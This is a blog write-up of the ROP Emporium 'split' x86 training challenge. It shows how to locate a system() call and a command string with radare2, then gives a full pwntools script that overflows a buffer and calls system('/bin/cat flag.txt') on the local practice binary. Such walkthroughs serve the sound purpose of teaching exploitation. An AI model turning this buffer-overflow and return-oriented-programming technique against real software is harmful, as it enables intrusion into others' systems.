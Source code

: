 ```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x86)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium challenge-2
tags: rop-emporium split x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

> This is what a hint will look like!
{: .prompt-tip }

## x86 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x86`, we pass each argument onto the stack. This is
easy since we already control the stack! There are other
[`x86` calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions){:target="_blank"}{:rel="noopener noreferrer"}
but passing arguments is all we need to know for
our purposes

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x86-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x86-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0804861a`

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x86-cat-addr.png)

Awesome the address of the string is `0x0804a030`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x0804a030
sys_addr = 0x0804861a

# create payload
payload = b'A' * 44
# call sys
payload += p32(sys_addr)
# set arg1
payload += p32(str_addr)

# send payload + receive flag
io = process('./split32')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x86-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.


[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x64]({% post_url 2024-06-01-rop-emporium-split-x64%}){:target="_blank"}{:rel="noopener noreferrer"}
